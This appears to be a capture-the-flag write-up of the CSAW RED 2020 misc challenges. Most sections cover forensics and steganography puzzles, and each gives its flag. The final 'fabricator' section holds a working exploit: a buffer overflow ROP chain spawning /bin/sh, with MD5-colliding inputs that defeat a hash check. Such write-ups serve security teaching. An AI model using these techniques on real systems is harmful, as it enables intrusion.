




Solutions for misc challenges from the CSAW RED 2020 Qualification Round.

Some of the scripts in this document have been clipped for the sake of brevity.

# misc - R\_U\_Awake
> https://discord.gg/Rg4rQqB

## Solution
Join the Discord and find the flag in [#announcements](https://discord.com/channels/745638559590908014/749300979735855206/756332986995179623).

## Flag
```
flag{U_R_Awake_a89fn3la}
```

# misc - Header Start
> This challenge should give you a good picture of a warm up challenge...if only we could view it

## Files
- myImageFile

## Solution
Opening the file in a hex editor, we observe what appear to be PNG chunk headers. Notably, the IHDR and IDAT headers (which are required in a PNG file) are immediately visible.


However, the PNG header is missing. Upon closer inspection, it appears that only the four magic bytes have been removed and everything else is intact.


If we insert these bytes and open the file, we get the flag.


## Flag
```
flag{itZ_ju$7_A_w@Rm_Up}
```

# misc - Back to the Future
> Where we're going...

## Files
- backtothefuture.docx

## Solution
We are given a docx file with some fun pictures. As a docx is just a zip file with a specific format, first we'll start by unzipping it.

```
$ unzip backtothefuture.docx
Archive:  backtothefuture.docx
  inflating: [Content_Types].xml
  inflating: _rels/.rels
  inflating: word/document.xml
  inflating: word/_rels/document.xml.rels
  inflating: word/footnotes.xml
  inflating: word/endnotes.xml
  (output clipped)

$ ll
total 640
drwxr-xr-x  5 darin darin   4096 Sep 28 21:00  ./
drwxr-xr-x 25 darin darin   4096 Sep 28 20:58  ../
-rw-r--r--  1 darin darin   1678 Jan  1  1980 '[Content_Types].xml'
drwxr-xr-x  2 darin darin   4096 Sep 28 21:00  _rels/
-rw-r--r--  1 darin darin 629937 Sep 28 20:58  backtothefuture.docx
drwxr-xr-x  2 darin darin   4096 Sep 28 21:00  docProps/
drwxr-xr-x  5 darin darin   4096 Sep 28 21:00  word/
```

If we take a look at the `word/media` folder, we'll find all the fun pictures they put in the document, along with one that wasn't visible before:


## Flag
```
flag{one.21_gigawatts!??!}
```

# misc - Cat
> Your cat is hiding your flag.

## Files
- happy_cat.jpg

## Solution
It's a cute cat! Flag is a string in the file.

```
$ strings happy_cat.jpg | grep flag
flag{Y0U_f0unD_h4PPy_cat_FL4G}@
```

## Flag
```
flag{Y0U_f0unD_h4PPy_cat_FL4G}
```

# misc - animal_friendship
> The druid in your party is a fan of the animal friendship spell. To get the flag, track them down in this packet capture, then report who they befriended here: `nc web.red.csaw.io 5017`

## Files
- animal_friendship.data

## Solution
The file we are given is a pcap. Open it in Wireshark or any similar tool.



We can see that there is a request for a jpg file that completes near the end of the capture. We can export this object with `File > Export Objects > HTTP...`.


Submitting `squirrel` to the server gives us the flag.

## Flag
```
flag{m4k1n9_f0r3n51c5_53c0nd_n47ur3}
```

# misc - recovery
> Alice forgot her throwaway email address, but she has a packet capture of her traffic. Can you help her recover it? To get the flag, answer a question about this traffic on the server here: `nc web.red.csaw.io 5018`

## Files
- recovery.data

## Solution
We are given another pcap. This time the server asks us for Alice's email, so we can just search for her name.



Submitting `alice_test@hotmail.com` to the server gives us the flag.

## Flag
```
flag{W1r3sh4rk,TCPfl0w,gr3p,57r1n95--7h3y'r3_4ll_f0r3n51c5_700l5}
```

# misc - Super Sonic
> Use some stego skills to retrieve the flag!

## Files
- supersonic.zip

## Solution
We are given a zip file with three files in it. The readme says:

```
Note to self: If I ever want to get that password, I'll have to face the music.
```

There must be some sort of password encoded in the audio file, so we take a look at the WAV in Sonic Visualiser:



Looking at the spectrogram, we clearly see the word `python` written. This must be the password the readme is referring to. Since the only other file left is the JPEG, we take a look at that next.


There are not many tools that work with JPEGs (due to compression) and include a password. We try steghide.

```
$ steghide extract -sf Car.jpeg -p 'python'
wrote extracted data to "flag.txt".
```

Success!

## Flag
```
flag{py1h0n_1s_c00l}
```

# misc - alert
The picture probably needs to be squared away...

## Files
- alert.png

## Solution
We are given a pretty cheesy joke in a PNG, though it appears to be truncated.


The challenge description hints at a square, so we can edit the IHDR of the PNG to make the image a square. Make sure to fix the CRC32 checksum too.


This reveals the flag.



## Flag
```
flag{sT@y_s@F3}
```

# misc - big world
> Someone took my gold and a secret book with the flag! Can you help me find it?

## Files
- world.zip

## Solution
We are given a zip file which contains a Minecraft world. Note that we do not have to own Minecraft or open this world, as doing so would be a violation of the CSAW RED rules:

```
- Teams may use any freely available tool to complete a given challenge
- Tools that must be purchased (e.g., ordered online) are prohibited
```

Fortunately, a Python library called [mcworldlib](https://github.com/MestreLion/mcworldlib) lets us parse these files. The description says someone took a book, so we'll look for dropped items that are books.

```python
import mcworldlib as mc

world = mc.load('./level.dat')

entities = []

for chunk in world.get_chunks():
  for entity in chunk['']['Level']['Entities']:
    if 'Item' in entity and 'book' in entity['Item']['id'].lower():
      print(entity)
      print(entity['Item']['tag'])
```

Running this gives the flag.

## Flag
```
flag{techno_vs_dream}
```

# misc - otherplane
> Your party's cleric was scrying on the admins and intercepted one of them casting a "Contact Other Plane" spell. See if you can make sense of this traffic, then report who they contacted here: `nc web.red.csaw.io 5019`

## Files
- otherplane.data

## Solution
This is yet another pcap. We see a long stream of ICMP ping packets, but suspiciously, they contain lots of data. Starting at packet 4, all the packets contain 540 bytes of data, and curiously, there is what appears to be a JPEG header in it.


We can write a Python script using [scapy](https://scapy.net/) to grab all these packets and concatenate them into a file, remembering to skip the first two.

```python
from scapy.all import *

cap = rdpcap("./otherplane.pcap")
packets = cap.filter(lambda p: p.src == '10.67.8.102')
with open("otherplane.jpeg", "wb") as f:
  for p in packets[2:]:
    f.write(bytes(p[Raw]))
```

Viewing the JPEG and submitting `galactic octopus` to the server gives the flag.


## Flag
```
flag{m0r3_l1k3_c0n74c7_9l455_pl4n3}
```

# misc - hack-a-mole
> Welcome to Hack-a-Mole, the hacker version of Whack-a-Mole! Beat all the levels to claim your flag. `nc web.red.csaw.io 5016`

## Solution
This is a rather straightforward challenge, though implementation is not trivial. We basically have to parse the hack-a-mole board, then send back the correct coordinates. The board sizes get larger as you go, and they start inserting non-mole objects too. Fortunately, you are allowed to get some of them wrong.

```python
from pwn import *

r = remote("web.red.csaw.io", 5016)

context.log_level = 'debug'

def parse():
  if b"Missed" in r.recvuntil("Score: "):
    print("missed one, continuing")
  r.recvline()
  r.recvline()
  board = r.recvuntil("                                                      \n\nWhack", drop=True)
  pos = board.index(b">-<")
  cols = len(board.splitlines()[0])//18
  rows = board.count(b"                                                      \n")
  spacing = 0
  for line in board.splitlines()[1:]:
    if b"                                           " in line:
      spacing += 1
    elif spacing > 0:
      break
  rows = rows // spacing
  rows = rows +1
  row = int(rows * (pos / len(board)))
  board = board.splitlines()
  for k, line in enumerate(board):
    if b">-<" in line:
      col = int(line.index(b">-<")/len(line)*cols)
      break
  return row, col

while True:
  board = parse()
  r.sendline(f"{board[0]} {board[1]}")
```

This is a very hastily-written script because they decided to release this challenge on the last day after many teams had the maximum score, so it just became a race to see who could implement this the fastest (some of the variable names and debug messages have been changed/removed to be a bit more appropriate). Sometimes it does not give the flag so it might need to be run a few times.

## Flag
```
flag{Wh4t3v3r_d1d_th3_p00r_m0l3_d0_t0_y0u?}
```

# misc - fabricator
> Forge an admin access card and pwn their box! This is both a crypto and a pwning challenge. `nc web.red.csaw.io 5012`

## Files
- fabricator
- fabricator.c

## Solution
As usual, we `checksec` before starting.
```
$ checksec fabricator
[*] '/home/darin/ctfs/red-2020/fabricator/fabricator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Curiously, it appears that most tools report a stack canary even though there isn't one. This is likely due to the binary being statically linked.

Taking a look at the source code, we see that it takes two inputs of length 400, then makes sure both of them start with the same prefix. Then, it checks if the hashes are valid and if they are, continues to `memcpy` the first input into a buffer of size 256. Clearly there is a buffer overflow here, so we just need a simple ROP chain to `execve('/bin/sh', NULL, NULL)`.

```c
void runGame(){
    char idCard[IDCARDSIZE];
    puts("---- ID Verification program ----\n");
    puts("   Please enter two Jangui ID cards ");
    puts("with the same MD5 sums and different");
    puts("SHA-256 hashes.\n");
    puts("   Expected ID card prefix:\n");
    printf("%s\n",id_prefix);
    puts("");
    printf("   Input ID card 1: >");
    fflush(stdout);

    int card_1_length = read(0, id1, IDCARDBUFSIZE);
    printf("   Input ID card 2: >");
    fflush(stdout);

    int card_2_length = read(0, id2, IDCARDBUFSIZE);
    puts("Scanning...");
    if (strncmp(id1, id2, 0x40)!=0 || strncmp(id1, id_prefix,0x40)!=0){
        puts("Error: ID prefix mismatch.");
        exit(0);
    }else{
        if(!(validHashes(id1, id2, IDCARDBUFSIZE))){
            puts("Hashes do not check out!");
            exit(0);
        }
    }
    puts("Thank you for logging in, Jangui. You have been validated. Have a nice day.");
    memcpy(idCard, id1, IDCARDBUFSIZE); // <-- VULNERABILITY
    return;
}
```

Since the binary is statically linked, this is simple.

```python
id1 = b"Hi, my name is Jangui. My card is my passport. Please verify me."
id1 = id1.ljust(280, b"A")
id1 += p64(0x4010dc)  # pop rsi; ret
id1 += p64(0x6c10e0)  # .data
id1 += p64(0x41c0c4)  # pop rax; ret
id1 += b"/bin/sh\x00"
id1 += p64(0x485ff1)  # mov QWORD PTR [rsi], rax; ret
id1 += p64(0x41c0c4)  # pop rax; ret
id1 += p64(59)        # sys_execve
id1 += p64(0x4006c6)  # pop rdi; ret
id1 += p64(0x6c10e0)  # .data
id1 += p64(0x4010dc)  # pop rsi; ret
id1 += p64(0)         # argv
id1 += p64(0x4502e5)  # pop rdx; ret
id1 += p64(0)         # env
id1 += p64(0x407bac)  # syscall
```

The length of the padding can be found with a debugger by subtracting the location of the return address from the argument to `read()`. We aren't done yet, though, because we still need to make two valid IDs.

```c
int validHashes(const char* buf1, const char* buf2, int bufLength){
    char md5hash1[MD5_DIGEST_LENGTH];
    MD5(buf1, bufLength, md5hash1);
    char md5hash2[MD5_DIGEST_LENGTH];
    MD5(buf2, bufLength, md5hash2);
    if (strncmp(md5hash1, md5hash2, MD5_DIGEST_LENGTH)){
        puts("MD5 hashes are not the same and should be!");
        return 0;
    }
    char sha256hash1[SHA256_DIGEST_LENGTH];
    SHA256(buf1, bufLength, sha256hash1);
    char sha256hash2[SHA256_DIGEST_LENGTH];
    SHA256(buf2, bufLength, sha256hash2);
    if (!strncmp(sha256hash1, sha256hash2,SHA256_DIGEST_LENGTH)){
        puts("SHA256 hashes are the same and should not be!");
        return 0;
    }
    return 1;
}
```

To satisfy these conditions, we need to make sure the MD5 hashes of the two IDs are the same, but the SHA256 hashes are not. MD5 is a very old hashing algorithm and it has been broken several times, whereas SHA256 is quite strong. Therefore, it should not be difficult to find an MD5 collision that is not a SHA256 collision.

Since there are many bytes of padding in the middle, we have plenty of space to generate a collision. Because of the way MD5 works, we can cause two different plaintexts to have the same hash by messing with a single block of 128 bytes in the middle. To do this we can use [HashClash](https://www.win.tue.nl/hashclash/).

```
$ md5sum id*
8c1faa48b2cd89117cb2618bfc3159e9  id1
8c1faa48b2cd89117cb2618bfc3159e9  id2
$ sha256sum id*
62fda9f92ad8d19c5b4b78fe744e789846e72a69129f6cb02c36e6208e7aba10  id1
d7e06ff5604125d34350d07f6f27dd057161a3570ecebc3ee8e7fbfe39b7bc8b  id2
$ xxd id1
00000000: 4869 2c20 6d79 206e 616d 6520 6973 204a  Hi, my name is J
00000010: 616e 6775 692e 204d 7920 6361 7264 2069  angui. My card i
00000020: 7320 6d79 2070 6173 7370 6f72 742e 2050  s my passport. P
00000030: 6c65 6173 6520 7665 7269 6679 206d 652e  lease verify me.
00000040: 7a04 8fad 03dd c22a 4a2a fc59 fac3 b003  z......*J*.Y....
00000050: 0b43 4343 8902 4fee 51a2 770a cabf 9630  .CCC..O.Q.w....0
00000060: 7dfd fde6 be67 80f0 cb23 4104 158e 9ab7  }....g...#A.....
00000070: 5670 c6b5 a9f9 cc56 2615 cb65 9792 2c2b  Vp.....V&..e..,+
00000080: c87f 5c4e 71d2 09bf edbc c38a 9825 dde3  ..\Nq........%..
00000090: ad13 db4e 6c5c 32e1 8bc5 40df 8b5f a8c6  ...Nl\2...@.._..
000000a0: d3bb 4828 af04 7214 780a c67a 3c40 f19e  ..H(..r.x..z<@..
000000b0: 5438 7c79 06f6 9902 9851 37b9 2073 06d8  T8|y.....Q7. s..
000000c0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000d0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000e0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000f0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000100: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000110: 4141 4141 4141 4141 dc10 4000 0000 0000  AAAAAAAA..@.....
00000120: e010 6c00 0000 0000 c4c0 4100 0000 0000  ..l.......A.....
00000130: 2f62 696e 2f73 6800 f15f 4800 0000 0000  /bin/sh.._H.....
00000140: c4c0 4100 0000 0000 3b00 0000 0000 0000  ..A.....;.......
00000150: c606 4000 0000 0000 e010 6c00 0000 0000  ..@.......l.....
00000160: dc10 4000 0000 0000 0000 0000 0000 0000  ..@.............
00000170: e502 4500 0000 0000 0000 0000 0000 0000  ..E.............
00000180: ac7b 4000 0000 0000                      .{@.....
$ xxd id2
00000000: 4869 2c20 6d79 206e 616d 6520 6973 204a  Hi, my name is J
00000010: 616e 6775 692e 204d 7920 6361 7264 2069  angui. My card i
00000020: 7320 6d79 2070 6173 7370 6f72 742e 2050  s my passport. P
00000030: 6c65 6173 6520 7665 7269 6679 206d 652e  lease verify me.
00000040: 7a04 8fad 03dd c22a 4a2a fc59 fac3 b003  z......*J*.Y....
00000050: 0b43 43c3 8902 4fee 51a2 770a cabf 9630  .CC...O.Q.w....0
00000060: 7dfd fde6 be67 80f0 cb23 4104 150e 9bb7  }....g...#A.....
00000070: 5670 c6b5 a9f9 cc56 2615 cbe5 9792 2c2b  Vp.....V&.....,+
00000080: c87f 5c4e 71d2 09bf edbc c38a 9825 dde3  ..\Nq........%..
00000090: ad13 dbce 6c5c 32e1 8bc5 40df 8b5f a8c6  ....l\2...@.._..
000000a0: d3bb 4828 af04 7214 780a c67a 3cc0 f09e  ..H(..r.x..z<...
000000b0: 5438 7c79 06f6 9902 9851 3739 2073 06d8  T8|y.....Q79 s..
000000c0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000d0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000e0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000f0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000100: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000110: 4141 4141 4141 4141 dc10 4000 0000 0000  AAAAAAAA..@.....
00000120: e010 6c00 0000 0000 c4c0 4100 0000 0000  ..l.......A.....
00000130: 2f62 696e 2f73 6800 f15f 4800 0000 0000  /bin/sh.._H.....
00000140: c4c0 4100 0000 0000 3b00 0000 0000 0000  ..A.....;.......
00000150: c606 4000 0000 0000 e010 6c00 0000 0000  ..@.......l.....
00000160: dc10 4000 0000 0000 0000 0000 0000 0000  ..@.............
00000170: e502 4500 0000 0000 0000 0000 0000 0000  ..E.............
00000180: ac7b 4000 0000 0000                      .{@.....
```

These two files are very similar, but not the same. Crucially, their MD5 hashes are identical. Sending these two files as IDs gives us a shell.

## Flag
```
flag{MISC_574nd5_f0r_Mul71cl4551n9_15_5up3r_c00l!}
```
